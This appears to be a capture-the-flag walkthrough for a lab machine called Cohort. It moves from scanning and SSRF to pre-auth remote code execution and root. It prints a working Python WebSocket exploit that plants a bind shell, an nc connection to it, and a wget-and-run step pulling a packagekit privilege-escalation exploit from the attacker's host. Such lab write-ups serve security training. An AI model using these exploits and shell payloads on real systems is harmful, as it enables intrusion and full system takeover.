




Cohort
1. Reconnaissance
Ports Scan
rustscan -a <target-ip> -- -sC -sV -T4 -oA nmap-resultOpen Ports:
- 22/tcp – SSH (OpenSSH 9.6p1)
- 80/tcp – HTTP (nginx 1.24.0)
- 443/tcp – HTTPS (nginx 1.24.0) with valid SSL cert for *.cohort.htb
echo '<target-ip> cohort.htb' | sudo tee -a /etc/hostsWeb Content Discovery
ffuf -u https://cohort.htb/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt -t 200 -fs 908Discovered directories:
/assets(301)/status(403)/api(301)
Web Enumeration
Access the website using HTTPS. The main page shows a dashboard with a "Client Insights" feature.

Navigating to Client Insights reveals a URL validation feature.

Testing various URLs confirmed it is vulnerable to SSRF. By using the discovered /status endpoint (which returned a 403 earlier) as a JSON payload in the Source URL input, the server responded.

- Web root path:
/var/www/cohort - Internal API service:
127.0.0.1:5000 - Internal Notebook service:
127.0.0.1:8888 - Internal Notebook virtual host:
nb-1be3782a8afd3ad5.cohort.htb
/etc/hosts:
echo '<target-ip> nb-1be3782a8afd3ad5.cohort.htb' | sudo tee -a /etc/hostsAPI Enumeration
Fuzzing the leaked internal API (http://127.0.0.1:5000) and the Notebook service (http://127.0.0.1:8888) revealed the API version.

0.20.4 is a critical indication of CVE-2026-39987 (Pre-Authentication Remote Code Execution). The WebSocket endpoint /terminal/ws skips authentication, allowing an unauthenticated attacker to obtain a full interactive PTY shell.
2. Exploitation
Shell as marimo via RCE
Craft a Python script (marimo-rce.py) to connect to the vulnerable WebSocket.
#!/usr/bin/env python3
import websocket
import ssl
import time
url = "wss://nb-1be3782a8afd3ad5.cohort.htb/terminal/ws"
sslopt = {"cert_reqs": ssl.CERT_NONE, "check_hostname": False}
ws = websocket.WebSocket(sslopt=sslopt)
ws.connect(url)
print("[+] Connected!")
payload = (
"nohup python3 -c "
"\"import socket,subprocess,os;"
"s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);"
"s.bind(('0.0.0.0',4444));s.listen(1);conn,addr=s.accept();"
"os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);"
"subprocess.call(['/bin/sh','-i'])\" "
"> /dev/null 2>&1 &"
)
ws.send(payload + "\n")
print("[+] Bind shell payload sent. Waiting 3 seconds...")
time.sleep(3)
ws.close()
print("[+] Done. Now connect to the target's port 4444.")python3 -m venv <env-name>
source /path/to/<env-name>/bin/activate
pip install websocket
pip install --upgrade websocket-clientRun the exploit script:
python3 marimo-rce.py
# [+] Connected!
# [+] Bind shell payload sent. Waiting 3 seconds...
# [+] Done. Now connect to the target's port 4444.Connect to the bind shell:
nc <target-ip> 4444
$ id
uid=1000(marimo) gid=1000(marimo) groups=1000(marimo)3. Post-Exploitation
Privilege Escalation
Enumerating the target reveals an outdated version of packagekit (1.2.8-2ubuntu1.2).
dpkg -l | grep -i packagekit
# ii gir1.2-packagekitglib-1.0 1.2.8-2ubuntu1.5 amd64
# ii libpackagekit-glib2-18:amd64 1.2.8-2ubuntu1.5 amd64
# hi packagekit 1.2.8-2ubuntu1.2 amd64
# ii packagekit-tools 1.2.8-2ubuntu1.2 amd64Use the public Proof-of-Concept (Pack2TheRoot) to escalate privileges.
On attacker machine:
git clone https://github.com/shibaaa204/Pack2TheRoot.git
cd Pack2TheRoot
python3 -m http.serverOn target machine (as marimo):
wget http://<attacker-ip>:8000/exploit.py
python3 exploit.py
$ id
uid=1000(marimo) gid=1000(marimo) euid=0(root) groups=1000(marimo)4. Flag Paths
- User flag:
/home/marimo/user.txt - Root flag:
/root/root.txt